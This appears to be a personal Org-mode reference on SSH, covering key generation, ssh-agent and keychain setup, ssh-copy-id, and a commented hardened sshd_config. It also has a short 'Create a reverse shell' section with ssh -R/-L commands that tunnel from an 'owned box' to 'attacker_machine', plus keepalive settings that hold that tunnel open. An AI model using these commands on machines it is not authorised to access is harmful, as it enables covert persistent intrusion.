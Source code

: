 #+TAGS: ssh remote_access ssh-copy-id ssh-agent ssh-add ssh-keygen sshd


* ssh
* Files
/etc/ssh/ssh_config             - the config file for the ssh client
/etc/ssh/sshd_config            - the config file for the ssh daemon
/home/user/.ssh/authorized_keys - this holds remote hosts public keys
/home/user/.ssh/config          - this is a way to save host configs
/home/user/.ssh/known_hosts     - this file holds hashes for all known hosts, hosts that we have previously connected to and authorize that we trust them to be the correct machine.
/home/user/.ssh/id_rsa          - this is the default private key, it needs privs of 600
/home/user/.ssh/id_rsa.pub      - this is the public key and should have privs of 644

** Cmds
*** ssh-copy-id
#+BEGIN_SRC sh
ssh-copy-id crito@192.168.0.5
#+END_SRC
You will be prompted for your password, if no ssh key configured
*** ssh-agent
To enable the ssh-agent
#+BEGIN_SRC sh
eval $(ssh-agent)
#+END_SRC

*** ssh-add
#+BEGIN_SRC sh
ssh-add ~/.ssh/git_eurus
#+END_SRC
*** ssh-keygen
*** ssh-copy-id
ssh-copy-id uses the SSH protocol to connect to the target host and upload the SSH user key. The command edits the authorized_keys file on the server. It creates the .ssh directory if it doesn't exist. It creates the authorized keys file if it doesn't exist. Effectively, ssh key copied to server.

It also checks if the key already exists on the server. Unless the -f option is given, each key is only added to the authorized keys file once.

It further ensures that the key files have appropriate permissions. Generally, the user's home directory or any file or directory containing keys files should not be writable by anyone else. Otherwise someone else could add new authorized keys for the user and gain access. Private key files should not be readable by anyone else.
* Cmds
- ssh-agent - this provides a single signin solution
- keychain  - this provides a fronted to ssh-agent and helps if you are using multiple keys
- ssh-xfer  - this provides an in channel download solution (but only from the remote machine)

* Description
* Usage
** ssh Key Generation
#+BEGIN_SRC sh
ssh-keygen
#+END_SRC
This will then prompt for a name for the new key

** Check an ssh keys password
#+BEGIN_SRC sh
eval $(ssh-agent)
ssh-add .ssh/id_rsa
#+END_SRC
If this key has a passphrase you will be challenged. 
To unload the key
#+BEGIN_SRC sh
ssh-add -d .ssh/id_rsa
#+END_SRC
** Generate public key from private key
#+BEGIN_SRC sh
ssh-keygen -y -f .ssh/private_key > .ssh/private_key.public
#+END_SRC

** Enable key only auth
- this will allow only key auth, no password auth
#+BEGIN_EXAMPLE
PasswordAuthentication no
#+END_EXAMPLE
this is the only variable that needs to be changed

** Secure Configuration
*** Network Options
Port 5000 - not usign the default port(22) can avoid common runs agains this port. Sometimes this is not a good idea due to certain application expecting the standard port, this should be considered.

AddressFamily inet - this only allows traffic over ipv4 not ipv6.

ListenAddress 192.168.1.0 - this will mean that the service will only listen on the local network 192.168.1.0, and not be accessable from the internet. ListenAddress 0.0.0.0 will allow the service to be accessed from all addresses.

Protocol 2 - this will only allow protocol 2 to be used, protcol 1 has known weaknesses that can allow exploitation of the service. 

X11Forwarding no - A prefered method for VNC is to tunnel it over ssh, this my be required for certain applications.

TCPKeepalive no - These are sent outside of the encrypted channel and can be spoofed, ClientAliveInterval is encrypted and is unspoofable so works as an alternative.

ClientAliveInterval 60 - secure alternative to TCPKeepalive.

ClientAliveCountMax 3 - The number of attempts that the sshd will illicit a response from the ssh client before disconnecting. Unresponsive ssh client will be disconnected after 3 minutes.

*** Key Configuration
HostKey /etc/ssh/ssh_host_rsa_key - these are the default host key locations
HostKey /etc/ssh/ssh_host_dsa_key

UsePrivilegeSeparation yes - this option splits up server processors in an attempt to prevent privilege escalation

PubkeyAuthentication yes - Use public key authentication for access. Using this option in conjunction with PasswordAuthentication no, means only uses with correct key can access the server.

AuthorizedKeysFile %h/.ssh/authorized_keys - this is the location that remote hosts public keys are kept who will have access.

*** Authentication

AllowUsers user_one user_two - White list the users that can login to the server, this is a space seperated list.

LoginGraceTime 60 - this provides a 60 second window to login to the system when prompted

PermitRootLogin no - Disable root logins completely, not save practice to be login to a server as root, use sudo or wheel group once logged in.

StrictModes yes - this forces the correct permissions of key files, must not be writable by anyone but the owner.

IgnoreRhosts yes - Ignore Rhosts authentication for .rhosts and .shorts files in RhostsRSAAuthentication or HostbasedAuthentication /etc/hosts.equiv is still used if the the HostBasedAuthentication option is not disabled.

HostBasedAuthentication no - Decides if rhosts or /etc/hosts.equiv and a public key is are allowed (host-based authentication.

IgnoreUserKnownHosts yes - This determines if the ~/.ssh/known_hosts file is to be ignored. When accessing multiple boxes on the same ip.

PermitEmptyPasswords no - Password is required for access. In this configuration a key is required.

ChallengeResponseAuthentication no - This is not required as wee aren't using login or password authentication.

PasswordAuthentication no - With this disabled a key is required to login to the server.

UsePAM no - not needed as we aren't using password authentication.

UseLogin no - as priviliege seperation is used login isn't required.

SyslogFacility AUTH - log sshd messages to the AUTH syslog facility, which stores its messages in /var/log/auth.log 
#+BEGIN_SRC sh
grep sshd /var/log/auth.log
#+END_SRC

LogLevel INFO - Defines verbosity of login. Available options SILENT, QUIET, FATAL, ERROR, INFO, VERBOSE, DEBUG, DEBUG2 and DEBUG3. INFO is default

PrintLastLog yes - When user logs in print the last login time. Good option for unauthorized access analysis.

MaxAuthTries 2 - This is the number of attemps that can be tried per connection. Failures are logged after half the number is reached.

Banner /etc/issue.net - this is the banner that greets a user at login

*** configuration
#+BEGIN_EXAMPLE
# user modified sshd_config
# See the sshd(8) manpage for details

#### Networking options ####

# Listen on a non-standard port > 1024
Port 50000

# Restrict to IPv4. inet = IPv4, inet6 = IPv6, any = both 
AddressFamily inet

# Listen only on the internal network address
ListenAddress 192.168.1.0

# Only use protocol version 2
Protocol 2

# Disable XForwarding unless you need it
X11Forwarding no

# Disable TCPKeepAlive and use ClientAliveInterval instead to prevent TCP Spoofing attacks
TCPKeepAlive no
ClientAliveInterval 600
ClientAliveCountMax 3

#### Networking options ####


#### Key Configuration ####

# HostKeys for protocol version 2
HostKey /etc/ssh/ssh_host_rsa_key
HostKey /etc/ssh/ssh_host_dsa_key

#Privilege Separation is turned on for security
UsePrivilegeSeparation yes

# Use public key authentication
PubkeyAuthentication yes
AuthorizedKeysFile      %h/.ssh/authorized_keys

# Disable black listed key usage (update your keys!)
PermitBlacklistedKeys no

#### Key Configuration ####


#### Authentication ####

# Whitelist allowed users
AllowUsers user1 user2

# one minute to enter your key passphrase
LoginGraceTime 60

# No root login
PermitRootLogin no

# Force permissions checks on keyfiles and directories
StrictModes yes

# Don't read the user's ~/.rhosts and ~/.shosts files
IgnoreRhosts yes

# similar for protocol version 2
HostbasedAuthentication no

# Don't trust ~/.ssh/known_hosts for RhostsRSAAuthentication
IgnoreUserKnownHosts yes

# To enable empty passwords, change to yes (NOT RECOMMENDED)
PermitEmptyPasswords no

# Disable challenge and response auth. Unessisary when using keys
ChallengeResponseAuthentication no

# Disable the use of passwords completly, only use public/private keys
PasswordAuthentication no

# Using keys, no need for PAM. Also allows SSHD to be run as a non-root user
UsePAM no

# Don't use login(1)
UseLogin no

#### Authentication ####


#### Misc ####

# Logging
SyslogFacility AUTH
LogLevel INFO

# Print the last time the user logged in
PrintLastLog yes

MaxAuthTries 2

MaxStartups 10:30:60

# Display login banner
Banner /etc/issue.net

# Allow client to pass locale environment variables
AcceptEnv LANG LC_*

Subsystem sftp /usr/lib/openssh/sftp-server

#### Misc ####
#+END_EXAMPLE

** Copy new public key to remote server
- this will assume that you are connecting to a user with the same username as you
#+BEGIN_SRC sh
ssh-copy-id 78.87.56.34
#+END_SRC

- here we are specifiying which user we would like to sort the key under
#+BEGIN_SRC sh
ssh-copy-id frank@78.87.56.34
#+END_SRC

** ssh-agent
- Using ssh-agent with multiple keys can cause problems when login into many servers.
  - Each key is considered an attempt, so if a limit is set then you can end up locked out.

- If GDM is used ssh-agent is started automatically
  - to start automatically with other desktop managers
    ~/.xsession
    #+BEGIN_EXAMPLE
    ssh-agent gnome-session
    #+END_EXAMPLE
    substituting gnome with the window manger in use
    
- keychain
  - this is a front-end to ssh-agent
  - to have this start on login
    ~/.bash_profile
    #+BEGIN_EXAMPLE
    #!/bin/bash
    /usr/bin/keychain ~/.ssh/id_rsa ~/.ssh/id_dsa ~/.ssh/root_key > /dev/null
    source ~/.keychain/hostname-sh
    #+END_EXAMPLE
    hostname should correspond with the machines hostname
  

** Setting up ssh-agent as a sysd service
#+BEGIN_EXAMPLE
[Unit]
Description=SSH key agent

[Service]
Type=forking
Environment=SSH_AUTH_SOCK=%t/ssh-agent.socket
ExecStart=/usr/bin/ssh-agent -a $SSH_AUTH_SOCK

[Install]
WantedBy=default.target
#+END_EXAMPLE

** Adding to zshrc
- add this line to .zshrc
#+BEGIN_EXAMPLE
export SSH_AUTH_SOCK="$XDG_RUNTIME_DIR/ssh-agent.socket"
#+END_EXAMPLE
** add key/identity
#+BEGIN_SRC sh
ssh-add $KEY
#+END_SRC

** Check what identities are currently set
#+BEGIN_SRC sh
ssh-add -l
#+END_SRC

** remove key/identity
#+BEGIN_SRC sh
ssh-add -d $KEY
#+END_SRC

** remove all keys/identities
#+BEGIN_SRC sh
ssh-add -D
#+END_SRC

** Changing SSH port

vi /etc/ssh/sshd\_config

change port to 22 (or any other number) or add another line to add
another port

service sshd reload
** Disable root login
#+BEGIN_EXAMPLE
PermitRootLogin no
#+END_EXAMPLE
** Only allow ssh protocol v2
#+BEGIN_EXAMPLE
Protocol 2
#+END_EXAMPLE
** Create a reverse shell
- this would only provide one step away from the target machine
#+BEGIN_SRC sh
ssh -R 1337:localhost:22 root@attacker_machine
#+END_SRC
the cmd connects the owned box to the attacker's machine using port 1337

- using a machine between attacker and target
#+BEGIN_SRC sh
ssh -L 31337:localhost:1337 -f -N -g root@attacker_machine
#+END_SRC
now the the attacker connects from another machine to 31337 and is connected to the owned machine

- the owned machine would quickly timeout if the sshd_config hasn't been edited
#+BEGIN_EXAMPLE
TCPKeepAlive yes
ClientAliveInterval 30
ClientAliveCountMax 99999
#+END_EXAMPLE

** Execute cmds on remote machine
#+BEGIN_SRC sh
ssh user@54.165.122.155 ls
#+END_SRC
this will return the ls of the users home directory, this can be handy for executing a script without connecting

** Kerberos
- these need to set in /etc/ssh/sshd_config
#+BEGIN_EXAMPLE
KerberosAuthentication yes
KerberosOrLocalPasswd yes
GSSAPIAuthentication yes

#+END_EXAMPLE
* Lecture
* Tutorial
** Linux Academy - Server Application Requires a Secure SSH connection
Guide: [[file://home/crito/Documents/Linux/Labs/secure-ssh-lab.pdf][SSH connection]] 

* Books
* Links
[[https://www.slac.stanford.edu/comp/unix/sshGSSAPI.html][Using SSH and GSSAPI Authentication]]
